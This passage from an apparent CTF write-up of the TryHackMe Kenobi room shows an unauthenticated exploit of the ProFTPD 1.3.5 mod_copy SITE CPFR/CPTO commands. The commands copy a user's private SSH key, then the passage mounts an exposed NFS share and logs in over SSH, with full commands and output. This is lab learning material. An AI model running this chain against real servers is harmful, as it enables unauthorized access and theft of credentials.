 The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

```
kali@kali:~/THM/kenobi$ nc 10.10.101.116 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.101.116]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

### Mount the /var/tmp directory to our machine, use the SSH key moved there to gain access to the server, and get the user flag.

```
kali@kali:~/THM/kenobi$ sudo mkdir /mnt/kenobiNFS
kali@kali:~/THM/kenobi$ sudo mount 10.10.101.116:/var /mnt/kenobiNFS
kali@kali:~/THM/kenobi$ ls -la /mnt/kenobiNFS/
total 56
drwxr-xr-x 14 root root    4096 Sep  4  2019 .
drwxr-xr-x  3 root root    4096 Dec  1 00:30 ..
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
drwxr-xr-x  9 root root    4096 Sep  4  2019 cache
drwxrwxrwt  2 root root    4096 Sep  4  2019 crash
drwxr-xr-x 40 root root    4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff   4096 Apr 12  2016 local
lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log
drwxrwsr-x  2 root mail    4096 Feb 26  2019 mail
drwxr-xr-x  2 root root    4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root    4096 Jan 29  2019 snap
drwxr-xr-x  5 root root    4096 Sep  4  2019 spool
drwxrwxrwt  6 root root    4096 Dec  1 00:27 tmp
drwxr-xr-x  3 root root    4096 Sep  4  2019 www
kali@kali:~/THM/kenobi$ cp /mnt/kenobiNFS/tmp/id_rsa .
kali@kali:~/THM/kenobi$ chmod 600 id_rsa 
kali@kali:~/THM/kenobi$ ssh -i id_rsa kenobi@10.10.101.116
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.101.116 (10.10.101.116)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.101.116' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

```